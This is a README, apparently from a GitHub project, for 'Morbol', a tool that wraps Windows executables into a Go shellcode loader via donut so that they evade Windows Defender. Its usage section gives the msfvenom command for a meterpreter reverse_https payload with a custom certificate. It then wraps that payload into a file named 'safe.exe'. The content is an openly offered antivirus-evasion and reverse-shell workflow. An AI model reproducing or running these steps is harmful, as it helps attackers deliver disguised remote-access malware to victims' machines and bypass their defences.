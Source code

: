 # Morbol

Wraps PE Files (PIE required) into a shellcode loader via donut. Note that this is meant for non interactive executeables that do not require arguments and do not generate any output that you want to obtain (e.g. won't work for Rubeus or Mimikatz, but does for msfvenom/cs beacons).

Please note that defender is now pretty good at detecting go loaders, so don't expect great results.

## Setup

```
GO111MODULE=off go get golang.org/x/sys/windows
pip3 install donut-shellcode
sudo apt-get install upx
```

## Usage

In my experience the only reliable way to evade defender with meterpreter is to use a reverse_https payload with a custom cert.

- Modify `/etc/ssl/openssl.cnf` so that `CipherString = DEFAULT`
- openssl req -new -x509 -nodes -out cert.crt -keyout priv.key
- set HandlerSSLCert on the server side listener

```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=... LPORT=...  HandlerSSLCert=... -f exe  > msf.exe
python3 morbol.py msf.exe safe.exe
```

## Credit

Heavily based on:
* https://posts.specterops.io/going-4-a-run-eb263838b944
* https://github.com/D00MFist/Go4aRun
